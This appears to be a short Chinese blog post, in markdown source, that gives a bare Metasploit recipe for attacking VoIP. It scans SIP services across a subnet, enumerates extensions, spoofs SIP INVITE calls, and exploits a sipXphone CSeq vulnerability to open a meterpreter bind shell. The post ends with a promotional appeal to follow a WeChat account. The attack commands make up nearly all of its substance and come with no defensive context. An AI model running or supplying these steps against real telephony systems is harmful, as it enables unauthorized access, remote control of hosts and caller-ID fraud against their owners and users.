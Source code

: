 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit渗透VOIP
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit渗透VOIP
lock: need
---
```


# Metasploit渗透VOIP

## 对VOIP服务踩点 

```
use auxiliary/scanner/sip/options
show options
set RHOSTS 192.168.109.0/24
run
```

## 扫描VOIP服务

```
use auxiliary/scanner/sip/enumerator
show options
set MINEXT 3000
set MAXEXT 3005
set PADLEN 4
set RHOSTS 192.168.109.0/24
run
```

## 欺骗VOIP电话

```
use auxiliary/voip/sip_invite_spoof
set RHOSTS 192.168.109.141
set EXTENSION 4444
show options
run
```

## 渗透VOIP

```
use exploit/windows/sip/sipxphone_cseq
set RHOST 192.168.109.141
set payload windows/meterpreter/bind_tcp
set LHOST 192.168.109.137
show options
exploit
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
